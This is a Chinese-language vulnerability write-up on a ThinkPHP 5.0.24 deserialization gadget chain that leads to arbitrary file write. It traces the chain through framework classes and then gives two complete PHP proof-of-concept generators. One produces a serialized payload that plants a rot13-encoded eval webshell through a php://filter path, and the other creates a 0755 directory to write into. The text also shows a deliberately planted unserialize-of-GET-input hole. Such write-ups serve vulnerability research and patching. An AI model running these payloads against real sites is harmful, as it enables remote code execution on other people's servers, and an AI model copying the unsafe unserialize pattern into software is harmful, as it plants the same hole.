


Thinkphp 5.0.24 反序列化（任意文件写入）漏洞
============================================

一、漏洞简介
------------

该漏洞只能在linux服务器上使用，win无法适用。

二、漏洞影响
------------

Thinkphp 5.0.24

三、复现过程
------------

### 漏洞分析

这个漏洞是框架的反序列化漏洞，只有二次开发实现了反序列化才可以利用，所以先构造漏洞代码，在/application/index/controller/Index.php中添加如下代码

    class Index
    {
        public function index()
        {
            echo "Welcome thinkphp 5.0.24";
            unserialize(base64_decode($_GET['a']));
        }
    }

Thinkphp
5.0.x反序列化最后触发RCE，要调用的`Request`类`__call`方法，所以直接找可用的`__call`方法

这里选择了Output类(/thinkphp/library/think/console/Output.php)，因为其中的block可以当作跳板

    public function __call($method, $args)
    {
        if (in_array($method, $this->styles)) {
            array_unshift($args, $method);
            return call_user_func_array([$this, 'block'], $args);
        }

        if ($this->handle && method_exists($this->handle, $method)) {
            return call_user_func_array([$this->handle, $method], $args);
        } else {
            throw new Exception('method not exists:' . __CLASS__ . '->' . $method);
        }
    }

从头开始分析，首先全局搜索`__destruct`，选择Windows类(/thinkphp/library/think/process/pipes/Windows.php)，代码如下

    public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }

跟进removeFiles

    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }

file\_exists可以触发`__tostring`，所以寻找`__tostring`，找到了Model类(/thinkphp/library/think/Model.php)

    public function __toString()
    {
        return $this->toJson();
    }

跟进toJson

    public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }

跟进toArray

    public function toArray()
    {
        $item    = [];
        $visible = [];
        $hidden  = [];

        $data = array_merge($this->data, $this->relation);
        
        ...
        // 追加属性（必须定义获取器）
        if (!empty($this->append)) {
            foreach ($this->append as $key => $name) {
                if (is_array($name)) {
                    ...
                } elseif (strpos($name, '.')) {
                    ...
                } else {
                    $relation = Loader::parseName($name, 1, false);
                    if (method_exists($this, $relation)) {
                        $modelRelation = $this->$relation();
                        $value         = $this->getRelationData($modelRelation);

                        if (method_exists($modelRelation, 'getBindAttr')) {
                            $bindAttr = $modelRelation->getBindAttr();
                            if ($bindAttr) {
                                foreach ($bindAttr as $key => $attr) {
                                    $key = is_numeric($key) ? $attr : $key;
                                    if (isset($this->data[$key])) {
                                        throw new Exception('bind attr has exists:' . $key);
                                    } else {
                                        $item[$key] = $value ? $value->getAttr($attr) : null;
                                    }
                                }
                                continue;
                            }
                        }
                        $item[$name] = $value;
                    } else {
                        $item[$name] = $this->getAttr($name);
                    }
                }
            }
        }
        return !empty($item) ? $item : [];
    }

由于我们的目的是执行`__call`，所以要找函数调用的点，在toArray里有三处

然后看这三处哪里可控，经调试第三处可控，需要满足的条件是

    if (!empty($this->append))
    if (method_exists($this, $relation))
    if (method_exists($modelRelation, 'getBindAttr'))
    if ($bindAttr)

且不满足

    if (is_array($name))
    elseif (strpos($name, '.'))
    if (isset($this->data[$key]))

才能够进入到第三处，首先需要满足\$relation是Model内的方法，然后经过如下赋值

    $modelRelation = $this->$relation();
    $value         = $this->getRelationData($modelRelation);

需要满足\$modelRelation可控，经过查找，可以将\$modelRelation设为getError

    public function getError()
    {
        return $this->error;
    }

然后跟进getRelationDate

    protected function getRelationData(Relation $modelRelation)
    {
        if ($this->parent && !$modelRelation->isSelfRelation() && get_class($modelRelation->getModel()) == get_class($this->parent)) {
            $value = $this->parent;
        } else {
            // 首先获取关联数据
            if (method_exists($modelRelation, 'getRelation')) {
                $value = $modelRelation->getRelation();
            } else {
                throw new BadMethodCallException('method not exists:' . get_class($modelRelation) . '-> getRelation');
            }
        }
        return $value;
    }

这里需要\$modelRelation为Relation类型。全局查找getRelation方法且为Relation类型的类，找到了HasOne(/thinkphp/library/think/model/relation/HasOne.php)

    public function getRelation($subRelation = '', $closure = null)
    {
        // 执行关联定义方法
        $localKey = $this->localKey;
        if ($closure) {
            call_user_func_array($closure, [ & $this->query]);
        }
        // 判断关联类型执行查询
        $relationModel = $this->query
            ->removeWhereField($this->foreignKey)
            ->where($this->foreignKey, $this->parent->$localKey)
            ->relation($subRelation)
            ->find();

        if ($relationModel) {
            $relationModel->setParent(clone $this->parent);
        }

        return $relationModel;
    }

可以看到这些条件都是满足的，然后看getBindAttr，发现在OneToOne类中是可控的

    public function getBindAttr()
    {
        return $this->bindAttr;
    }

所以代码执行到

    $item[$key] = $value ? $value->getAttr($attr) : null;

就可以调用Output类的`__call`方法，调用payload如下

    namespace think{
        use think\console\Output;
        use think\model\relation\HasOne;
        abstract class Model{
            protected $relation;
            protected $append = ["1"];
            protected $error;
            protected $parent;
            public function __construct()
            {
                $this->parent = new Output();
                $this->relation = ["getError"=>"getError"];
                $this->append = ["getError"=>"getError"];
                $this->error = new HasOne();
                $this->data = ["key"=>"ls"]; ;
            }
        }
    }

    namespace think\db{
        use think\console\Output;
        class Query
        {
            protected $model;
            public function __construct()
            {
                $this->model = new Output();
            }
        }
    }

    namespace think\model\relation{
        use think\db\Query;
        use think\model\Relation;
        abstract class OneToOne extends Relation
        {
            protected $query;
            protected $bindAttr = [];
            public function __construct()
            {
            }
        }

        class HasOne extends OneToOne
        {
            protected $query;
            protected $bindAttr = [];
            public function __construct()
            {
                $this->query = new Query();
                $this->bindAttr = ["1"=>"1"];
            }
        }
    }

然后接着看Output，在`__call`中调用block

    protected function block($style, $message)
    {
        $this->writeln("<{$style}>{$message}</$style>");
    }

继续writeln

    public function writeln($messages, $type = self::OUTPUT_NORMAL)
    {
        $this->write($messages, true, $type);
    }

write

    public function write($messages, $newline = false, $type = self::OUTPUT_NORMAL)
    {
        $this->handle->write($messages, $newline, $type);
    }

而\$this-\>handle是可控的，继续全局搜索write，寻找可控的点，找到了/thinkphp/library/think/session/driver/Memcached.php

    public function write($sessID, $sessData)
    {
        return $this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire']);
    }

这样就有找到了一个跳板set，然后继续找可以写入文件的方式，找到了/thinkphp/library/think/cache/driver/File.php

    public function set($name, $value, $expire = null)
        {
            if (is_null($expire)) {
                $expire = $this->options['expire'];
            }
            if ($expire instanceof \DateTime) {
                $expire = $expire->getTimestamp() - time();
            }
            $filename = $this->getCacheKey($name, true);
            if ($this->tag && !is_file($filename)) {
                $first = true;
            }
            $data = serialize($value);
            if ($this->options['data_compress'] && function_exists('gzcompress')) {
                //数据压缩
                $data = gzcompress($data, 3);
            }
            $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
            $result = file_put_contents($filename, $data);
            if ($result) {
                isset($first) && $this->setTagItem($filename);
                clearstatcache();
                return true;
            } else {
                return false;
            }
        }

此处\$filename可控，跟进getCacheKey

    protected function getCacheKey($name, $auto = false)
    {
        $name = md5($name);
        if ($this->options['cache_subdir']) {
            // 使用子目录
            $name = substr($name, 0, 2) . DS . substr($name, 2);
        }
        if ($this->options['prefix']) {
            $name = $this->options['prefix'] . DS . $name;
        }
        $filename = $this->options['path'] . $name . '.php';
        $dir      = dirname($filename);

        if ($auto && !is_dir($dir)) {
            mkdir($dir, 0755, true);
        }
        return $filename;
    }

回来继续看\$data，从传入的\$value获取，但是在之前writeln处已经传入了true，而且不可控，只能继续往下看，可以看到当成功写入文件时，会调用setTagItem方法，跟进

    protected function setTagItem($name)
    {
        if ($this->tag) {
            $key       = 'tag_' . md5($this->tag);
            $this->tag = null;
            if ($this->has($key)) {
                $value   = explode(',', $this->get($key));
                $value[] = $name;
                $value   = implode(',', array_unique($value));
            } else {
                $value = $name;
            }
            $this->set($key, $value, 0);
        }
    }

又调用了一次set，且此处两个参数都是可控的，所以可以在文件名处搞事情，通过编码然后将文件名写入shell中

### poc

    <?php
    namespace think\process\pipes;
    use think\model\Pivot;
    class Pipes{

    }

    class Windows extends Pipes{
        private $files = [];

        function __construct(){
            $this->files = [new Pivot()];
        }
    }

    namespace think\model;#Relation
    use think\db\Query;
    abstract class Relation{
        protected $selfRelation;
        protected $query;
        function __construct(){
            $this->selfRelation = false;
            $this->query = new Query();#class Query
        }
    }

    namespace think\model\relation;#OneToOne HasOne
    use think\model\Relation;
    abstract class OneToOne extends Relation{
        function __construct(){
            parent::__construct();
        }

    }
    class HasOne extends OneToOne{
        protected $bindAttr = [];
        function __construct(){
            parent::__construct();
            $this->bindAttr = ["no","123"];
        }
    }

    namespace think\console;#Output
    use think\session\driver\Memcached;
    class Output{
        private $handle = null;
        protected $styles = [];
        function __construct(){
            $this->handle = new Memcached();//目的调用其write()
            $this->styles = ['getAttr'];
        }
    }

    namespace think;#Model
    use think\model\relation\HasOne;
    use think\console\Output;
    use think\db\Query;
    abstract class Model{
        protected $append = [];
        protected $error;
        public $parent;#修改处
        protected $selfRelation;
        protected $query;
        protected $aaaaa;

        function __construct(){
            $this->parent = new Output();#Output对象,目的是调用__call()
            $this->append = ['getError'];
            $this->error = new HasOne();//Relation子类,且有getBindAttr()
            $this->selfRelation = false;//isSelfRelation()
            $this->query = new Query();

        }
    }

    namespace think\db;#Query
    use think\console\Output;
    class Query{
        protected $model;
        function __construct(){
            $this->model = new Output();
        }
    }

    namespace think\session\driver;#Memcached
    use think\cache\driver\File;
    class Memcached{
        protected $handler = null;
        function __construct(){
            $this->handler = new File();//目的调用File->set()
        }
    }
    namespace think\cache\driver;#File
    class File{
        protected $options = [];
        protected $tag;
        function __construct(){
            $this->options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => '',
            'path'          => 'php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>',
            'data_compress' => false,
            ];
            $this->tag = true;
        }
    }

    namespace think\model;
    use think\Model;
    class Pivot extends Model{

    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

该poc仅可在linux下使用，Windows对文件名有限制。

生成文件名规则：

    md5('tag_'.md5($this->tag))
    即:
    md5('tag_c4ca4238a0b923820dcc509a6f75849b')
    =>3b58a9545013e88c7186db11bb158c44
    =>
    <?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
    最终文件名：
    <?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php

在漏洞利用时需注意目录读写权限，可先控制options\['path'\] =
'./demo/'，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755**
权限的目录（这里利用的是 **think\\cache\\driver\\File:getCacheKey()**
中的 **mkdir** 函数），然后再往这个目录写文件。

### poc 创建demo目录

    <?php
    namespace think\process\pipes;
    use think\model\Pivot;
    class Pipes{

    }

    class Windows extends Pipes{
        private $files = [];

        function __construct(){
            $this->files = [new Pivot()];
        }
    }

    namespace think\model;#Relation
    use think\db\Query;
    abstract class Relation{
        protected $selfRelation;
        protected $query;
        function __construct(){
            $this->selfRelation = false;
            $this->query = new Query();#class Query
        }
    }

    namespace think\model\relation;#OneToOne HasOne
    use think\model\Relation;
    abstract class OneToOne extends Relation{
        function __construct(){
            parent::__construct();
        }

    }
    class HasOne extends OneToOne{
        protected $bindAttr = [];
        function __construct(){
            parent::__construct();
            $this->bindAttr = ["no","123"];
        }
    }

    namespace think\console;#Output
    use think\session\driver\Memcached;
    class Output{
        private $handle = null;
        protected $styles = [];
        function __construct(){
            $this->handle = new Memcached();//目的调用其write()
            $this->styles = ['getAttr'];
        }
    }

    namespace think;#Model
    use think\model\relation\HasOne;
    use think\console\Output;
    use think\db\Query;
    abstract class Model{
        protected $append = [];
        protected $error;
        public $parent;#修改处
        protected $selfRelation;
        protected $query;
        protected $aaaaa;

        function __construct(){
            $this->parent = new Output();#Output对象,目的是调用__call()
            $this->append = ['getError'];
            $this->error = new HasOne();//Relation子类,且有getBindAttr()
            $this->selfRelation = false;//isSelfRelation()
            $this->query = new Query();

        }
    }

    namespace think\db;#Query
    use think\console\Output;
    class Query{
        protected $model;
        function __construct(){
            $this->model = new Output();
        }
    }

    namespace think\session\driver;#Memcached
    use think\cache\driver\File;
    class Memcached{
        protected $handler = null;
        function __construct(){
            $this->handler = new File();//目的调用File->set()
        }
    }
    namespace think\cache\driver;#File
    class File{
        protected $options = [];
        protected $tag;
        function __construct(){
            $this->options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => '',
            'path'          => './demo/',
            'data_compress' => false,
            ];
            $this->tag = true;
        }
    }

    namespace think\model;
    use think\Model;
    class Pivot extends Model{

    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

参考链接
--------

> http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/
>
> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP5.0.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE%E5%88%86%E6%9E%90/
>
> https://xz.aliyun.com/t/7082
